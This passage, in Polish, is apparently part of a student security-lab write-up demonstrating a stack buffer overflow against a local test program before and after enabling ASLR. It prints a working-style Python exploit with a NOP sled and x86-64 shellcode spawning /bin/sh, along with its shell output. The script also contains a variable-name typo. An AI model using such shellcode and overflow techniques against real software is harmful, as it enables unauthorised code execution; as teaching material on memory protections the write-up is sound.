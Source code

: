 </font>

Tym razem eksploit polega na przepełnieniu bufora oraz wstawieniu shellcodu (uruchamiającego wiersz poleceń) poprzedzonego dużą ilością instrukcji `nop`. Po drodze nadpisany zostaje adres powrotu funkcji, który teraz będzie wskazywał gdzieś na "zjeżdżalnię" z *nop'ów*. Jak widać adres, do którego ma zostać przekierowanie wykonania programu, został wpisany na sztywno - ten element zawiedzie po uruchomieniu ASLR.

<font size=1>

```python
import struct
import sys

padding = b'\x41'*72
address = 0x00007fffffffe040
nop_sled = b'\x90'*800
shellcode = b'\x48\x31\xd2\x48\xbb\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x48\xc1\xeb\x08\x53\x48\x89\xe7\x50\x57\x48\x89\xe6\xb0\x3b\x0f\x05'

sys.stdout.buffer.write(padding)
sys.stdout.buffer.write(struct.pack("Q", address+200))
sys.stdout.buffer.write(nop_sld)
sys.stdout.buffer.write(shellcode)
```

</font>

Najpierw jednak uruchomię program z wyłączonym ASLR. Przy normalnym wykonaniu pogram uruchomił by wiersz poleceń i od razu się wyłączył. Dlatego, aby móc pisać w wierszu poleceń, uruchamiam dodatkowo program `cat`. Jak widać, na wydruku poniżej, eksploit spełnił swoje zadanie.

<font size=1>

```
mb@ubuntu:~/Desktop/projekt_bso/ASLR$ (cat exp; cat) | ./out
     
tree ..
..
|-- ASLR
|   |-- exp
|   |-- exploit.py
|   |-- out
|   `-- vuln.c
`-- StackCanaries
    |-- exploit.py
    |-- protected
    |-- unsafe
    `-- vuln.c

2 directories, 8 files
```

</font>

Teraz czas włączyć ASLR poleceniem `sudo sysctl -w kernel.randomize_va_space=2`. Aby zobaczyć na własne oczy działanie ASLR, wyświetlę za pomocą gdb pamięć dwóch instancji mojego programu. Należy jednak pamiętać, że domyśle gdb wyłącza randomizacje adresów i trzeba tę opcję wyłączyć poleceniem `set disable-randomization off`.
